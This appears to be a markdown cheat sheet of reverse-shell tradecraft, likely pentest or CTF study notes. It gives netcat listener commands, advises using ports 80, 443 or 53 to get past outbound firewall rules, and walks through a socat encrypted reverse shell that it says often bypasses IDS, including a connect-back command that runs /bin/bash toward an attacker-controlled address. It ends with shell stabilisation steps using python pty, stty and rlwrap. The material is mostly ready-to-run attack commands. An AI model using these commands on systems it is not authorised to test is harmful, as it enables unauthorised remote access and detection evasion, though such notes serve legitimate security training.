 ```Bash

```

## Netcat
The syntax for starting a netcat listener using Linux is this:
```Bash
nc -lvnp <port-number>
```
Be aware that if you choose to use a port below 1024, you will need to use sudo when starting your listener. That said, it's often a good idea to use a well-known port number (80, 443 or 53 being good choices) as this is more likely to get past outbound firewall rules on the target.

## Socat
Although, it is same as netcat, but the real difference for which we would prefer this is encrypted shells. This often bypasses IDS system.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
We then need to merge the two created files into a single .pem file:
```bash
cat shell.key shell.crt > shell.pem
```
Now, when we set up our reverse shell listener, we use below command to listen on a port:
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```
To connect back, we would use:
```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

## Shell Stablize
### Using Python
```Bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
This will give us access to term commands such as clear - 
```Bash
export TERM=xterm
```
Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use stty raw -echo; fg. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

### Using rlwrap
To use rlwrap, we invoke a slightly different listener:
```Bash
rlwrap nc -lvnp <port>
```
Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. 


